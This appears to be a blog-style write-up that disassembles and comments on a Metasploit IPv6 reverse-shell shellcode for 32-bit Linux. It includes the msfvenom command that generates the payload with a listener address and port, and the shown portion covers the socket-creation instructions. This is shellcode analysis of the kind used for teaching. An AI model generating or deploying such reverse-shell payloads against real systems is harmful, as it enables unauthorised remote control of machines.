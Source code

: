 To generate the payload:

```bash
msfvenom -p linux/x86/shell_reverse_tcp_ipv6 LHOST=fe80::250:56ff:fe22:364b LPORT=4444 -o shellcode.bin
```

To analyse it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; EDX:EAX = EBX * 0
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
```

{% sidenote Useful for polymorphism: besides `EBX`, they clear `EAX` and `EDX` too %}

```nasm
                            ; IPPROTO_TCP
00000004  6A06              push byte +0x6

                            ; SOCK_STREAM
00000006  6A01              push byte +0x1

                            ; AF_INET6
00000008  6A0A              push byte +0xa

                            ; pointer to arguments of socket()
0000000A  89E1              mov ecx,esp

                            ; call socketcall(SYS_SOCKET, ...)
0000000C  B066              mov al,0x66
0000000E  B301              mov bl,0x1

                            ; C code: socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
00000010  CD80              int 0x80
```

The instructions above create a `TCP` socket based on the `IPv6` protocol. The return value, stored into the register `EAX` (and later moved into `ESI`), is a file descriptor.

```nasm
                            ; save File Descriptor of the socket
00000012  89C6              mov esi,eax

                            ; clear ECX and EBX and push 0x00000000 to the stack
00000014  31C9              xor ecx,ecx
00000016  31DB              xor ebx,ebx
00000018  53                push ebx
```

{% sidenote I don't know exactly why the author pushed the DWORD `0x00000000` two times, thus making the struct 32-bytes long, when the size should be only 28 bytes. If you know, please contact me. %}
